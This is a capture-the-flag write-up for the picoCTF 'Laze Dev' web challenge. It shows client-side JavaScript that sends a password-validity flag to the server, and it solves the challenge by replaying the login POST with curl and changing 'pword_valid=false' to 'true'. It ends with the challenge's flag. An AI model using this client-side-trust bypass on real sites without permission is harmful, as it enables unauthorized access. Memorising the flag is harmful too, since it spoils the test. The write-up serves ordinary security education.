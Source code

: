 # Laze Dev

Problem:

I really need to login to [this](http://shell2017.picoctf.com:35895/) website, but the developer hasn't implemented login yet. Can you help?

## Solution

On opening the chrome devtools on the website, within the `Sources` tab,
we can see a JS file called `client.js`.

```javascript
//Validate the password. TBD!
function validate(pword){
  //TODO: Implement me
  return false;
}

//Make an ajax request to the server
function make_ajax_req(input){
  var text_response;
  var http_req = new XMLHttpRequest();
  var params = "pword_valid=" + input.toString();
  http_req.open("POST", "login", true);
  http_req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  http_req.onreadystatechange = function() {//Call a function when the state changes.
  	if(http_req.readyState == 4 && http_req.status == 200) {
      document.getElementById("res").innerHTML = http_req.responseText;
    }
  }
  http_req.send(params);
}

//Called when the user submits the password
function process_password(){
  var pword = document.getElementById("password").value;
  var res = validate(pword);
  var server_res = make_ajax_req(res);
}
```

Notice this line: `var params = "pword_valid=" + input.toString();`

We probably need to do a POST on the URL to which `make_ajax_req(...)`
is performing an AJAX POST request.

On clicking the Submit button, we see that an XHR request is being made.

I used Chrome devtools to get the headers, payload, etc. being passed to
`/login`. This was the entire cURL data:

```bash
curl 'http://shell2017.picoctf.com:35895/login' -H 'Pragma: no-cache' -H 'Origin: http://shell2017.picoctf.com:35895' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.8' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36' -H 'Content-type: application/x-www-form-urlencoded' -H 'Accept: */*' -H 'Cache-Control: no-cache' -H 'Referer: http://shell2017.picoctf.com:35895/' -H 'Cookie: _ga=GA1.2.139744509.1490819530' -H 'Connection: keep-alive' --data 'pword_valid=false' --compressed
```

Changing the `pword_valid=false` data to `pword_valid=true`, we get our flag:

```bash
client_side_is_the_dark_sidebde1f567656f8c9b654a1ec24e1ff889
```
